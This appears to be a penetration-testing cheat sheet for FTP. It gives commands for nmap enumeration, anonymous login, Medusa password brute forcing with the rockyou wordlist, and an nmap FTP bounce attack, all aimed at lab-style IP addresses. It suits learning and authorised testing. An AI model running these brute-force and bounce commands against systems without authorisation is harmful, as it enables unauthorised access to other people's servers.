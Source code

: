 The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers.
# Enumeration
#### Nmap
```shell
sudo nmap -sC -sV -p 21 192.168.2.142
```
#### Anonymous Authentication
```shell
ftp 192.168.2.142

anonymous
```
## Protocol Specifics Attacks
### Brute Forcing
#### Brute Forcing with Medusa
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
# FTP Bounce Attack
The `Nmap` -b flag can be used to perform an FTP bounce attack:
#### Nmap
```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```



